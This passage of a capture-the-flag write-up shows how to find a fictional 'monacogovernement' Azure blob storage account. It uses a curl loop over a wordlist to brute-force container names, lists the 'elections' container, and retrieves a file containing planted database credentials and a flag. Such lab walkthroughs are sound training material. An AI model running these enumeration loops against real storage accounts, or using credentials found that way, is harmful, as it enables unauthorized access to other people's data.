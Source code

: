 ```bash
# Test the storage account with the provided keyword
curl -s -I "https://monacogovernement.blob.core.windows.net/"
```

#### Step 3: Storage Account Discovery
Testing the provided keyword, we find the valid storage account:
`https://monacogovernement.blob.core.windows.net/`

#### Step 4: Container Brute Force
Direct container enumeration fails:
```bash
curl "https://monacogovernement.blob.core.windows.net/?comp=list"
# Returns: ResourceNotFound - containers are not publicly listable
```

We must brute force container names using the wordlist:

```bash
# Brute force containers with the wordlist
for word in $(cat election_wordlist.txt); do
    response=$(curl -s -o /dev/null -w "%{http_code}" "https://monacogovernement.blob.core.windows.net/${word}/?restype=container&comp=list")
    if [ "$response" != "404" ]; then
        echo "Container found: $word (HTTP $response)"
    fi
done
```

We discover that the `elections` container exists and is accessible.

#### Step 5: File Enumeration in Container
Once the `elections` container is discovered, we can directly list its content:

```bash
# List files in the elections container
curl "https://monacogovernement.blob.core.windows.net/elections/?restype=container&comp=list"
```

This command reveals files present in the container, notably `elections.txt`.

#### Step 6: Access to Compromising File
We directly access the discovered file:

```bash
# Retrieve file content
curl "https://monacogovernement.blob.core.windows.net/elections/elections.txt"
```

The file contains (source: [https://monacogovernement.blob.core.windows.net/elections/elections.txt](https://monacogovernement.blob.core.windows.net/elections/elections.txt)):
```
our database credentials for our rigged elections are : monacosql:wElOvECLOUD! flag-st0r4g3-accounts-are-hard
```

**Flag Part 1:** `flag-st0r4g3-accounts-are-hard`

---